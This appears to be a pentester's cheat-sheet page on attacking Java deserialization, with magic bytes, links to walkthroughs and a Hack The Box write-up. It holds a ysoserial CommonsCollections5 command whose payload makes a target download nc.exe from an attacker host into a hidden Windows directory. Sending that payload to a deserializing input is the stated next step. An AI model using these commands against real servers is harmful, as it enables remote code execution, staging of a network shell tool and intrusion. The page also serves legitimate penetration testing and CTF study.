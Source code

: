 
Decompiler: `jd-gui`

# Serialised Java Data

Magic Bytes: `AC ED`
Common extensions: `javax.faces.ViewState`
Common URI file name: `.faces`
## Walkthrough

1. [Exploiting blind Java deserialization with Burp and Ysoserial – n00py Blog](https://www.n00py.io/2017/11/exploiting-blind-java-deserialization-with-burp-and-ysoserial/)
2. [Tricking blind Java deserialization for a treat – Security Café](https://securitycafe.ro/2017/11/03/tricking-java-serialization-for-a-treat/)
3. [Hack The Box - Arkham - 0xRick’s Blog](https://0xrick.github.io/hack-the-box/arkham/#jsf-viewstate-deserialization-vulnerability) Encrypted usage

## Interesting links

- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
- [Exploiting blind Java deserialization with Burp and Ysoserial](https://www.n00py.io/2017/11/exploiting-blind-java-deserialization-with-burp-and-ysoserial/)
- [How i found a 1500$ worth Deserialization vulnerability](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Encrypted Java Serialized RCE](https://gist.github.com/cdowns71/76d99ad0829ceef3a83761dbeee3b66d)
## Guide

### Deserialization Attack

YSOSerial.jar:
`wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial.jar`

This tool requires an important piece of information: a payload. See the walkthroughs above as the most time it will be blind. Hopefully in enumeration and recon a file or maybe Java Class.

````
java -jar ysoserial.jar CommonsCollections5 'cmd.exe /c powershell -c Invoke-WebRequest -Uri "http://10.10.xx.xx/nc.exe" -OutFile "C:\windows\system32\spool\drivers\color\nc.exe"' > uploadnc.payload
````

Send the payload to the input which desterilises to execute. 

## Execute System Commands in Java

[Java Runtime.getRuntime(): getting output from executing a command line program - Stack Overflow](https://stackoverflow.com/questions/5711084/java-runtime-getruntime-getting-output-from-executing-a-command-line-program/20624914#20624914)